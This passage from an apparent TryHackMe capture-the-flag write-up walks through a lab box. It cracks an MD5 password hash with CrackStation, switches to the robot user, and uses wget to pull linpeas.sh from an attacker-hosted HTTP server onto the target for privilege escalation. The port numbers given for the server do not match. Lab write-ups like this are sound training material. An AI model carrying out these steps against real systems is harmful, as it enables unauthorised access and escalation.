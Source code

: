 ```shell
daemon@linux:/home/robot$ ls -la
ls -la
total 16
drwxr-xr-x 2 root  root  4096 Nov 13  2015  .
drwxr-xr-x 3 root  root  4096 Nov 13  2015  ..
-r-------- 1 robot robot   33 Nov 13  2015  key-2-of-3.txt
-rw-r--r-- 1 robot robot   39 Nov 13  2015  password.raw-md5
```
We used a tool called crackstation for cracking hash codes. 

![11 crackstation](https://github.com/Nath28m/CTF-writeups-tryhackme/assets/115990830/401acfe9-d215-4ccb-95ea-4f1dd769d1f0)

This might be the password for robot?????

It Is the password lol (nice password).
Lets view the second flag.
```shell
su robot
Password: abcdefghijklmnopqrstuvwxyz
robot@linux:~$ whoami
whoami
robot
robot@linux:~$ cat key-2-of-3.txt
```
## Escalate Privileges 
There are numerous ways to findout what you can escalate your privileges. We used Linpeas.

We create a python HTTP server 

We have to make sure that we change directory to the 'tmp' folder otherwise we cannot import linpeas to the machine as we dont have permissions.

```shell
python -m http.server 80 (our machine)
```
curl command 

```shell
$ wget 10.8.122.251:8000/linpeas.sh
wget 10.8.122.251:8000/linpeas.sh
--2023-08-02 15:50:03--  http://10.8.122.251:8000/linpeas.sh
Connecting to 10.8.122.251:8000... connected.
HTTP request sent, awaiting response... 200 OK
Length: 134168 (131K) [text/x-sh]
Saving to: ‘linpeas.sh’

100%[======================================>] 134,168      538KB/s   in 0.2s   

2023-08-02 15:50:03 (538 KB/s) - ‘linpeas.sh’ saved [134168/134168]

robot@linux:/tmp$ ls
ls
linpeas.sh
```
Run linpeas and let the magic happen 
